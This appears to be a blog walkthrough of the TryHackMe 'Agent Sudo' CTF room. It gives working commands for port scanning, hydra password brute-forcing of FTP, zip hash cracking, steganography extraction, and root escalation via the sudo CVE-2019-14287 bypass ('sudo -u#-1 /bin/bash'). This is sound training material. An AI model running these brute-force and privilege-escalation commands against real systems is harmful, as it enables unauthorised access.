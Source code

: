 ```yaml
---
layout: post
title: "TryHackMe - Agent Sudo Walkthrough"
author: "joona"
---
```


![](/images/agentsudo/agentsudo.jpg)
>You found a secret server located under the deep sea. Your task is to hack inside the server and reveal the truth.

[Agent Sudo][AgentSudo] is an easy room on TryHackMe created by [DesKel][DesKel].<br/>
It includes some basic enumeration, brute-forcing and CTF methods such as steganography and hash cracking.
The privilege escalation is an interesting vulnerability in the `sudo` command.

### Nmap results<br/>
{% highlight plaintext %}
nmap -A -p- 10.10.53.38 -oA nmap
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
{% endhighlight %}
<br/>

### Website Enumeration
On the website at port 80 we have the following text:<br/>
{% highlight plaintext %}
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R
{% endhighlight %}

So the codename is probably a single letter, based on the signature, **Agent R**.<br/>
We are told to use this codename as the user-agent.<br/>

Since we don't know the codename, I used Burp Suite's Intruder to fuzz the correct user-agent.

![](/images/agentsudo/intruder.jpg)<br/>
From the results we can see that letters **R** and **C** gave a different size response that other letters.<br/>

With **User-agent: R** we have nothing interesting, just a warning that this incident will be reported.<br/>

With **User-agent: C** we get redirected to `/agent_C_attention.php` where we have a message:<br/>
{% highlight plaintext %}
Attention chris,

Do you still remember our deal? Please tell agent J about the stuff ASAP.
Also, change your god damn password, is weak!

From,
Agent R
{% endhighlight %}

Now we have a username **chris** and it's supposed to have a weak password.
<br/>

### FTP Enumeration
Let's try to brute-force our way into the FTP server with username **chris**.
>hydra -l chris -P /usr/share/wordlists/rockyou.txt ftp://10.10.53.38 -V -I

And we have a match: **crystal**<br/>

Logging in as chris to the FTP server we have three files:<br/>
- To_agentJ.txt
- cute-alien.jpg
- cutie.png

To_agentJ.txt:
{% highlight plaintext %}
Dear agent J,

All these alien like photos are fake!
Agent R stored the real picture inside your directory.
Your login password is somehow stored in the fake picture.
It shouldn't be a problem for you.

From,
Agent C
{% endhighlight %}
<br/>

### Hash Cracking and Brute-Force
Digging the images for clues, I found with `binwalk cutie.png` that there's a zip file inside it.<br/>
![](/images/agentsudo/cutie.jpg)

Trying to unzip it with `unzip cutie.png` we get an error message:<br/>
`skipping: To_agentR.txt           need PK compat. v5.1 (can do v4.6)`<br/>

I used **7zip**: `7z x cutie.png` to try and extract it but we get a password prompt.<br/>

We can use binwalk to extract the data: `binwalk -e cutie.png`. With this we get
a zip file **8702.zip**.

We can try to brute-force this with **John the Ripper**. First we need to process the
zip file into a format suitable for use with JtR. This can be done with **zip2john**.

{% highlight plaintext %}
zip2john 8702.zip > agent.zip
root@world:~/tryhackme/agentsudo# zip2john 8702.zip > zip.hash
ver 81.9 8702.zip/To_agentR.txt is not encrypted, or stored with non-handled compression type
root@world:~/tryhackme/agentsudod# john zip.hash
...
Proceeding with wordlist:/usr/share/john/password.lst, rules:Wordlist
alien            (8702.zip/To_agentR.txt)
...
{% endhighlight %}

Now we can extract the file with 7zip and the password **alien**.

We get the file To_agentR.txt:
{% highlight plaintext %}
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
{% endhighlight %}

'QXJlYTUx' is base64:
{% highlight plaintext %}
root@world:~/tryhackme/agentsudo# echo -n 'QXJlYTUx' | base64 -d
Area51
{% endhighlight %}

Using this password to extract data from **cute-alien.jpg**:
{% highlight plaintext %}
root@world:~/tryhackme/agentsudo# steghide extract -sf cute-alien.jpg
Enter passphrase: Area51
wrote extracted data to "message.txt".
{% endhighlight %}

message.txt:
{% highlight plaintext %}
Hi james,

Glad you find this message. Your login password is hackerrules!
Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
{% endhighlight %}
<br/>

### User Flag & Privilege Escalation
Logging in SSH as **james** with the password **hackerrules!** we get the user_flag.txt and Alien_autospy.jpg.

The room name agent-sudo hints strongly to a Sudo vulnerability.<br/>
Checking the Sudo version with `sudo --version` we see that it's
`1.8.21p2`. Googling vulnerabilities for this version we find [CVE-2019-14287][CVE-2019-14287].
>The vulnerability exists in the implementation of the "sudo" application when processing commands that are configured to run with ALL keyword.<br/>
A local user with privileges to use sudo for specific applications on the system can escalate privileges and run the application as root (even if precisely restricted), if user id "-1" or "4294967295" is used.

So basically this requires that we have sudo right to run any command with ALL keyword. We can check this with `sudo -l`:
{% highlight plaintext %}
james@agent-sudo:~$ sudo -l
User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash
{% endhighlight %}

So now we can privesc with a simple command:
{% highlight plaintext %}
james@agent-sudo:~$ sudo -u#-1 /bin/bash
root@agent-sudo:~# id
uid=0(root) gid=1000(james) groups=1000(james)
{% endhighlight %}

root.txt:
{% highlight plaintext %}
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe.
Tips, always update your machine.

Your flag is
~~censored~~

By,
DesKel a.k.a Agent R
{% endhighlight %}


[AgentSudo]: https://tryhackme.com/room/agentsudoctf
[DesKel]: https://tryhackme.com/p/DesKel
[CVE-2019-14287]: https://www.cybersecurity-help.cz/vdb/SB2019101501?affChecked=1
